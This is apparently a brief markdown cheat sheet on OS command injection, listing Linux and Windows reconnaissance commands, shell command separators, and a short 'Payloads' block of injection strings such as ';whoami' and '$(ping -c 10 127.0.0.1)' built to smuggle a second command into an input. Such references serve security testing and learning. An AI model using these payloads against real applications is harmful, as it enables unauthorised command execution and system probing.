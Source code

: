 Some useful linux commands
- whoami
- ls
- cat
- echo
- uname -a
- ifconfig
- netstat -an
- ps -ef
- cat

 
Some useful windows commands
- whoami
- dir
- type
- echo
- ver
- ipconfig /all
- netstat -an
- tasklist

linux-windows commands seperates<br>
```
command1 ; command2 = Executes the second command after the first, regardless of success(Only Linux)
command1 & command2 = Runs both commands in parallel in the background.
command1 | command2 = Pipes the output of the first command to the second command.
command1 && command2 = Runs the second command only if the first command is successful.
command1 || command2 = Runs the second command only if the first command fails.

```


# Payloads
```
;whoami
$(whoami)
$(ping -c 10 127.0.0.1)
||ping+-c+10+127.0.0.1||
```
